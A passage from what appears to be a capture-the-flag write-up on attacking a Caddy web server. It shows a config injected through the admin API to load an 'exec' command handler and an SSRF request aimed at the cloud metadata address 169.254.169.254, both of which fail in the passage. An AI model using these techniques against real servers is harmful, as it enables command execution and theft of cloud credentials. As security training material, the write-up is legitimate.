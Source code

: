 ```http
                  "body": "Exploit executed"
                }
              ]
            }
          ]
        }
      }
    }
  }
}
```

And we got an error; that module is unknown. Oops, this will not be that easy. Why can't we use this module? Because it's not standard and has to be installed additionally. 
```http
HTTP/1.1 400 Bad Request
Content-Length: 236
Content-Type: application/json
Date: Sat, 24 May 2025 17:46:01 GMT
Via: 1.1 Caddy
{"error":"loading config: loading new config: loading http app module: provision http: server exploit: setting up route handlers: route 0: loading handler modules: position 0: loading module 'exec': unknown module: http.handlers.exec"}
```

The next step is to analyse only standard modules to create something interesting. We can see all modules in [the official documentation](https://caddyserver.com/docs/modules/).### SSRF to Cloud meta server
But before we continue, I had one more idea. The service is running in the cloud, so can we use SSRF to access the cloud meta server:
```http
GET /169.254.169.254/latest/meta-data HTTP/2
Host: <uuid>.kit.sasc.tf
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

But we can't access it:
```http
HTTP/2 400 Bad Request
Server: ycalb
Date: Sun, 25 May 2025 07:07:11 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 33
Etag: b77d39066335d22d29e536f9fc196630
Via: 1.1 Caddy
X-Content-Type-Options: nosniff
Proxied requests are not allowed
```

